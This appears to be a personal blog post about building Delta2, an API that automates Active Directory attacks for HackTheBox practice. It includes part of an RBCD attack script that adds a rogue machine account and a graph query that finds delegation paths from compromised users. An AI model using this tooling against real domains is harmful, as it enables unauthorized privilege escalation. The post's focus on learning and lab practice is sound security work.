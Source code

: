 +++
title = "Delta2"
date = "2024-11-10T16:56:20-07:00"
author = "Ceald"
authorTwitter = "" #do not include @
cover = ""
tags = ["delta2", "new", "cybersecurity", "projects", "python"]
keywords = ["projects", "delta2", "python"]
description = ""
showFullContent = false
readingTime = false
hideComments = false
+++

## Background
Delta2 is an API that is a Swiss army knife for active directory. I wrote this project because I was sick of having to set up java and remembering how to use bloodhound python for doing active directory boxes on HackTheBox, so I wrote my own. Delta2's primary use is automation like automate kerberoasting after mapping the domain or getting shortest paths to admin users and exploiting the necessary users to get to admin users.

Delta2 was my first successful full-stack application and took many months to build. It uses Memgraph which is an alternative to Neo4j as the graphing database and FastAPI for the API, and it's containerized with docker for easy deployment.


## Process of building
### Plan
My plan was to build some kind of script or API that will allow me to move through a domain efficiently. There were a few ways I could've done that like using bloodhound and neo4j to find paths in the graph, but that'd require me to read documentation and code that I didn't write. My second option was to "reinvent the wheel" which is what I did. Unfortunately I thought it'd be the easiest way which it probably wasn't, but I learned more than if I were to just make it based off of bloodhound.

### The Beginning
After I kind of had a plan I started building it. I built an outline for the API with various routes I wanted like Kerberoasting, getting TGTs, AS-REP roasting, and a collection script. Testing was a bit of a pain because I would use boxes from HackTheBox, and sometimes I forgot to take out test code and I would have to take the repository down, remove the test code then put it back up to avoid spoilers for boxes. 

### Collection Script Works
One big issue with building the collection script was supporting Kerberos and reading nTSecurityDescriptors. nTSecurityDescriptors describe what objects and permissions a user has over another for example: Bob has WriteAll on Administrator. I first realized the issue with Kerberos when I couldn't get ldap3 and Impacket to work together like how they work in bloodhound python so I switched to BloodyAD which is an Active Directory privilege escalation framework. So I reverse engineered BloodyAD to figure out how to use it because there's no documentation for how to use its python modules and got it kind of working. I say kind of because now I had to learn how to read nTSecurityDescriptors. You can find how I learned the syntax for nTSecurityDescriptors here:


https://itconnect.uw.edu/tools-services-support/it-systems-infrastructure/msinf/other-help/understanding-sddl-syntax/


Writing the collection script is what took the longest time because I also had to do a little reverse engineering on how bloodhound python worked and do a bunch of debugging to figure out what information and how to commit it to the graph as well as how to connect nodes. After collecting nodes next was to graph and link them that's where I read and parsed nTSecurityDescriptors. No python modules supported it, so I had to do it manually.



### Examples
After getting the collection script working next was to write some examples for how to use the graph data and the other endpoints of the API.

Some examples I built included a kerberoasting script and a RBCD (Resource Based Constrained Delegation) attack script. Some code snippets for the RBCD script:
```python
def run(user, password, hash_, aeskey, delegate_to):
  comp_name = 'randomcomputer550'
  comp_pass = 'Password123!'
  j = {
    "target": {
      "domain": domain,
      "dc": dc,
      "kerberos": "False",
      "ldap_ssl": "False",
      "user_name": user,
      "dc_ip": dc_ip
    },
    "kerb": {
      "password": password,
      "user_hash": hash_,
      "aeskey": aeskey
    },
    "ops": {
      "option": "add_computer",
      "computer_name": comp_name,
      "computer_pass": comp_pass,
      "ou": "",
      "contianer": ""
    }
  }

  response = req.post('http://localhost:9000/ldap/objeditor', json=j).json()
  print(response)

  if "error" in response['response'] and "entryAlreadyExists" not in response['response']:
      raise Custom_exception(message=response['response'])


  j = {
    "target": {
      "domain": domain,
      "dc": dc,
      "kerberos": "False",
      "ldap_ssl": "False",
      "user_name": user,
      "dc_ip": dc_ip
    },
    "kerb": {
      "password": password,
      "user_hash": hash_,
      "aeskey": aeskey
    }
  }
```
The script would add a new computer to the domain and then modify its permissions to have control over an object it can delegate to like the administrator user. All of it is automated by the script running a query to get possible RBCD paths to users. The query:
```sql
MATCH path1=(n {t: "user"})-[ *ALLSHORTEST (r, n | 1)]->(m)
WHERE m.disabled IS NULL AND m.t = "computer"
  AND n.disabled IS NULL 
  AND n.pwned = "True" 
  AND m.pwned IS NULL 
  AND m.added_comp IS NULL 
  AND NOT m.name = 'randomcomputer550$'
  AND ALL(rel IN relationships(path1) WHERE type(rel) IN ["memberOf", "GENERIC_ALL"])
  AND size(relationships(path1)) > 0
RETURN path1
```

More coming soon on this post...